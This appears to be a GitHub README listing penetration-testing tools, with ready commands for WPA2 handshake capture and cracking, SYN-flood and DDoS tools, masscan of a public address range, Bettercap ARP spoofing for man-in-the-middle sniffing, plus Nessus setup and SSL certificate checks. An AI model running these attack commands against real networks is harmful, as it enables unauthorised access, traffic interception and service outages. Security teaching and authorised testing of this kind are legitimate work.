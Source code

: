 ***This repo is a very highlight collection of tools, techniques, and scanners I've used in my projects to improve security. It covers network reconnaissance, penetration testing, and security assessments. Use these tools responsibly and within legal boundaries.***


## **WPA2-PSK Cracking**
The most common method for cracking **WPA2-PSK** is through an **offline brute-force attack**, which involves attempting multiple password combinations until the correct one is found.  
🔹 *Prerequisite:* Capture a **valid handshake** from an active client on the network.

### Tools Used (Aircrack-ng Suite)
- **`airodump-ng`** – Analyzes networks and captures handshakes.
- **`aireplay-ng`** – Performs deauthentication attacks.
- **`aircrack-ng`** – Cracks the password using the captured handshake.

### Capturing Packets for a Target Network
```sh
sudo airodump-ng --bssid <target_BSSID> --channel <target_channel> --write <output_file> wlan0mon
```

### Cracking the Password
```sh
aircrack-ng -w <wordlist_file> <handshake_file>
```

---

# Denial-of-Service (DoS) & Distributed Denial-of-Service (DDoS) Attacks

## Common Tools
- **HOIC (High Orbit Ion Cannon)** – Open-source stress testing tool for websites and networks.  
  [Download Here](https://sourceforge.net/projects/highorbitioncannon/)
- **LOIC (Low Orbit Ion Cannon)** – Open-source network stress testing tool used for **DoS attacks**.  
  [Download Here](https://sourceforge.net/projects/loic/)
- **hping3** – A powerful **network testing** and **security auditing** tool.

### Example hping3 Command
```sh
sudo hping3 -S --flood -V -p <IP_ADDRESS>
```

- **torshammer.py** – A Python script for **DDoS attacks**.  
  [GitHub Repository](https://github.com/Karlheinzniebuhr/torshammer)

### Example torshammer Command
```sh
python torshammer.py -t 192.168.1.100 -r 100000 -T
```

---

# **Network Reconnaissance**

## Nmap
[Nmap Cheat Sheet](https://www.stationx.net/nmap-cheat-sheet/)
```sh
nmap -p 80 --script http-generator.nse
nmap -p 443 --script=http-headers,http-title,http-generator 
nmap --script="default and http-*"
```

## Masscan
[Masscan Cheat Sheet](https://cheatsheet.haax.fr/network/port-scanning/masscan_cheatsheet/)
```sh
masscan -p80,443,8080,8443,81,4444,4443,8888 70.176.0.0/16
```

## Netdiscover
[Netdiscover Cheat Sheet](https://neverendingsecurity.wordpress.com/2015/04/07/netdiscover-cheatsheet/)
```sh
sudo netdiscover
```

## Bettercap
[Bettercap Cheat Sheet](https://github.com/Lifka/hacking-resources/blob/main/session-hijacking-cheat-sheet.md)
```sh
sudo bettercap
```

---

# **Nessus - Vulnerability Scanner**
[Nessus](https://www.tenable.com/products/nessus) is a widely used **commercial vulnerability scanner** designed to identify **security threats**, missing patches, misconfigurations, and vulnerable software.

### Installation & Setup
```sh
wget 'https://www.tenable.com/downloads/api/v1/public/pages/nessus/ downloads/18394/download?i_agree_to_tenable_license_agreeme nt=true' -O Nessus_amd64.deb
sudo apt install -f ./Nessus_amd64.deb
sudo systemctl enable nessusd
sudo systemctl start nessusd
systemctl status nessusd
```

> **Note:**  
> 1️⃣ Once installed, navigate to the Nessus web UI.  
> 2️⃣ If you cannot create a new scan immediately, the plugins may still be initializing.  

---

# ARP Spoofing & MITM Attacks

### **Tools**
- **Ettercap** – [Official Website](https://www.ettercap-project.org/)
- **MITM Framework** – [GitHub Repository](https://github.com/byt3bl33d3r/MITMf)
- **Driftnet** – [Kali Linux Tool](https://www.kali.org/tools/driftnet/)

### **Performing MITM Attacks with Bettercap**
```sh
sudo apt-get install bettercap
sudo bettercap --iface <interface>
```

### **Running an ARP Spoofing Attack**
```sh
net.probe on
set arp.spoof.duplex true
set arp.spoof.targets 192.168.74.128
arp.spoof on
net.sniff on
```

---

# **SSL Verification & MITM Prevention**
To prevent **MITM attacks** through **SSL verification**, ensure the following:  
✅ The **SSL certificate** is issued by a **trusted Certificate Authority (CA)** and is **not revoked**.  
✅ The **domain name** in the certificate matches the **website’s domain**.  
✅ Use **OpenSSL** to manually check certificate details when necessary.

### **Checking SSL Certificate with OpenSSL**
```sh
openssl s_client -connect <website>:443
```